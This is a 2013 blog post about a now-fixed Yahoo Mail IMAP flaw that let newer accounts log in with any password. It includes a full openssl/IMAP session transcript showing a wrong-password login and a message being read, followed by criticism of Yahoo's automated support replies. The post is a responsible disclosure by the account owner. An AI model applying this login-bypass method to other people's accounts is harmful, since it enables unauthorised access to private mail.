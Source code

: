```yaml
---
title: "How I could log in to Yahoo Mail with any password"
excerpt_separator: <!--more-->
permalink: 2013-05-20-yahoo-imap-vulnerability.html
---
```


<div class="alert">
<strong>Note:</strong> This post is really old!
</div>

A little over a week ago I discovered a startling vulnerability in Yahoo Mail. I could log in to any of my accounts, and I presume many others, _with any password_. It seems to be fixed now, but Yahoo’s response left much to be desired.

First I’ll outline the vulnerability, then I’ll discuss Yahoo's response.

<!--more-->

<h3 id="side_note">Side note</h3>

I discovered this while working on <a href="http://www.triage.cc">Triage</a>, an iPhone app for busy people who struggle to stay on top of their email. <a href="http://daringfireball.net/linked/2013/04/18/triage">John Gruber said</a> "since I've been using Triage, I'm more caught up on my email than I have been in years."" You should <a href="http://www.appstore.com/triageemailfirstaid">download Triage from the App Store now</a>.

<h2 id="the_vulnerability">The vulnerability</h2>

To be more specific, I could log into my accounts on Yahoo’s IMAP servers with any password. Of the three accounts I tested, the first was created in April, the other two a couple of weeks ago. This issue didn’t affect <a href="http://www.twitter.com/nzkoz" title="Koz">my colleague</a> who had a much older Yahoo Mail account. Perhaps the date the accounts were created had something to do with it?

If so, I wonder if Marissa would have fallen into the new Yahoo! Mail accounts camp? ;)

Here’s a transcript of the commands I used. Nothing fancy. Just IMAP commands. I also made <a href="http://www.youtube.com/watch?v=u4Uvnct-3Sw">a Youtube video of the vulnerability using three separate accounts</a>.

<pre><code>
$ openssl s_client -host imap.mail.yahoo.com -port 993
CONNECTED(00000003)
depth=1 /C=US/O=DigiCert Inc/OU=www.digicert.com/CN=DigiCert High Assurance CA-3
verify error:num=20:unable to get local issuer certificate
verify return:0
---
Certificate chain
0 s:/C=US/ST=CA/L=Sunnyvale/O=Yahoo! Inc./CN=imap.mail.yahoo.com
i:/C=US/O=DigiCert Inc/OU=www.digicert.com/CN=DigiCert High Assurance CA-3
1 s:/C=US/O=DigiCert Inc/OU=www.digicert.com/CN=DigiCert High Assurance CA-3
i:/C=US/O=DigiCert Inc/OU=www.digicert.com/CN=DigiCert High Assurance EV Root CA
---
Server certificate
-----BEGIN CERTIFICATE-----
(removed for brevity)
-----END CERTIFICATE-----
subject=/C=US/ST=CA/L=Sunnyvale/O=Yahoo! Inc./CN=imap.mail.yahoo.com
issuer=/C=US/O=DigiCert Inc/OU=www.digicert.com/CN=DigiCert High Assurance CA-3
---
No client certificate CA names sent
---
SSL handshake has read 3485 bytes and written 444 bytes
---
New, TLSv1/SSLv3, Cipher is RC4-SHA
Server public key is 2048 bit
Secure Renegotiation IS supported
Compression: NONE
Expansion: NONE
SSL-Session:
Protocol  : TLSv1
Cipher    : RC4-SHA
Session-ID: B462753AD5E31875DF769ACE765FDE067090D390FB4ADAC9D8BF5286B4A9316E
Session-ID-ctx: 
Master-Key: 9A37586CD75F079581F6E9EB1F870109BE36A593E9B365331C0BE9BC1CE59C45139AEF1D1CC6E4D7087EEBD3C6A378D4
Key-Arg   : None
Start Time: 1368067492
Timeout   : 300 (sec)
Verify return code: 0 (ok)
---
* OK [CAPABILITY IMAP4rev1 ID NAMESPACE X-ID-ACLID UIDPLUS LITERAL+ CHILDREN XAPPLEPUSHSERVICE XYMHIGHESTMODSEQ AUTH=PLAIN AUTH=LOGIN &gt; AUTH=XYMCOOKIE AUTH=XYMECOOKIE AUTH=XYMCOOKIEB64 AUTH=XYMPKI] IMAP4rev1 imapgate-0.7.68_14.357900 imap402.mail.aue.yahoo.com
1 LOGIN "mailtriageapp@yahoo.com" asdf
1 OK AUTHENTICATE completed - Mailbox size in bytes is 32815
2 SELECT INBOX
* 3 EXISTS
* 0 RECENT
* OK [UIDVALIDITY 1366345105] UIDs valid
* OK [UIDNEXT 19] Predicted next UID
* FLAGS (\Answered \Flagged \Deleted \Seen \Draft)
* OK [PERMANENTFLAGS (\Answered \Flagged \Deleted \Seen \Draft)] Permanent flags
* OK [HIGHESTMODSEQ 5875762758974036000]
2 OK [READ-WRITE] SELECT completed; now in selected state
3 UID SEARCH UNSEEN
* SEARCH 18 
3 OK UID SEARCH completed
4 UID FETCH 18 (UID FLAGS RFC822.SIZE ENVELOPE BODY.PEEK[HEADER.FIELDS (References)])
* 3 FETCH (FLAGS (\Answered) UID 18 RFC822.SIZE 5781 ENVELOPE ("Thu, 9 May 2013 11:58:24 +1200" "Yaahooooo" (("Nick Malcolm" NIL &gt; "nick" "malcolm.net.nz")) (("Nick Malcolm" NIL "nick" "malcolm.net.nz")) (("Nick Malcolm" NIL "nick" "malcolm.net.nz")) (("Mail &gt; Triage" NIL "mailtriageapp" "yahoo.com")) NIL NIL NIL "&lt;B3BF01ABA37D4DB1AB43C819DBDDE658@malcolm.net.nz&gt;") BODY[HEADER.FIELDS (&gt; REFERENCES)] {2}

)
4 OK UID FETCH completed</code></pre>

You can see, after connecting to the server, that I log in to the account "mailtriageapp@yahoo.com" with the password _asdf_. The password was not asdf, nor was it any of the other incorrect passwords I attempted. I then opened the Inbox, and read the first unread message.

To me that seems like a <strong>huge</strong> vulnerability.

<h2 id="yahoos_response">Yahoo’s response</h2>

I immediately reported this to the Yahoo security team, and included transcripts of exploiting this with two of my accounts. This was on the 9th of May. Unfortunately, <a href="http://www.nilsjuenemann.de/2013/05/yahoo-please-start-with-vulnerability.html">like others have noted</a>, their response left much to be desired.

<blockquote>
"I refused to report more bugs to them because it’s boring to talk with bots."
<cite> - <a href="http://www.nilsjuenemann.de/2013/05/yahoo-please-start-with-vulnerability.html">Nils Jünemann</a></cite>
</blockquote>

&nbsp;

When you email security@yahoo-inc.com, you get an automated response:

> This is an <strong>automated message</strong> acknowledging your recent submission for help to Yahoo! Customer Care.
> <br />&nbsp;<br />
> Please do not reply to this automated message as replies will not been seen or answered by a Yahoo! Customer Care representative.
> <br />&nbsp;<br />
> If you reported abuse, we will investigate and take action where appropriate, and may be contacted if additional information is required to complete our investigation. We appreciate your efforts to make our community better.
> <br />&nbsp;<br />
> If you are submitting a request for assistance, or asking a question, a representative will respond as soon as possible.
> <br />&nbsp;<br />
> Your Incident ID is: <span>removed</span>
> <br />&nbsp;<br />
> Sincerely, The Yahoo! Customer Care Team

Like so many companies, Yahoo sent a “do not reply to this email” email. I simply can’t understand why any company would want to ignore user feedback. At the very least it should be simple enough to tack a customer’s response to the support ticket.

Later that day I got another seemingly automated response.

> Recently you requested personal assistance from our on-line support center. Below is a summary of your request and our response.
> <br />&nbsp;<br />
> <strong>Subject</strong> I can log in to IMAP with incorrect password
> <br />&nbsp;<br />
> <strong>Discussion Thread</strong> <strong>Response Via Email (Leslie Davids)</strong>
> <br />&nbsp;<br />
> Hello Nick,
> <br />&nbsp;<br />
> Thank you for contacting Yahoo!.
> <br />&nbsp;<br />
> I have analyzed your message, and it is best addressed by our Yahoo! Accounts team. To protect account security, this team requires specific information about your Yahoo! account that you provided during sign-up or when you last updated your account. I will need to ask you to <a href="http://io.help.yahoo.com/contact/index?locale=en_US&amp;y=PROD_ACCT&amp;page=contact">contact Yahoo! Accounts team</a> directly to provide the necessary information to resolve your issue.
> <br />&nbsp;<br />
> <strong>Note</strong>: Please do not reply to this message. Submitting an email through the form is the best way to get your answer.
> <br />&nbsp;<br />
> Please visit Yahoo! Privacy Center for information regarding Yahoo!’s Privacy Policy.
> <br />&nbsp;<br />
> Also, please read the help article about registering a Yahoo! ID.
> <br />&nbsp;<br />
> For additional help with Yahoo! products, please visit the Yahoo Help pages.
> <br />&nbsp;<br />
> Thank you again for contacting Yahoo!.
> <br />&nbsp;<br />
> Regards,
> <br />&nbsp;<br />
> Leslie Davids
> <br />&nbsp;<br />
> Yahoo! Customer Care www.yahoo.com

The reason I suspect this is a robot:

<ul>
<li>Leslie “analyzed” my message. Who says they analyzed a message?!</li>

<li>Why would she suggest I learn how to register a Yahoo! ID? I obviously already have two of them.</li>
</ul>

Again I was faced with the familiar “Please do not reply to this message”. To make matters worse, the suggested “contact Yahoo! Accounts team” link did not work in Chrome, Firefox, or Safari, neither when I was logged in or out of a Yahoo account.

I replied to Leslie with the strong suggestion of sending this directly to the security team, and also told her the contact form was broken. Later that night I made <a href="http://www.youtube.com/watch?v=u4Uvnct-3Sw">the Youtube video</a>, just to prove I wasn’t making things up.

<h2 id="alls_well">All's well that ends well</h2>

About three days later I noticed that Yahoo was now refusing bad passwords. That’s pretty quick, so at least someone is paying attention over there. All’s well that ends well, I guess.

I’m not sure what I expected. It feels good to have reported my first vulnerability. Especially one which seems to be so simple, yet very serious and far reaching. A thank you might have been nice.

But I really wish all companies, from startups to global behemoths, would stop sending “Do not reply” messages. It’s so impersonal. Just don’t do it.

If _you'd_ like to reply to this post, find me on twitter <a href="http://www.twitter.com/nickmalcolm">@nickmalcolm</a>.

Follow this story on <a href="https://news.ycombinator.com/item?id=5734833">Hacker News</a>.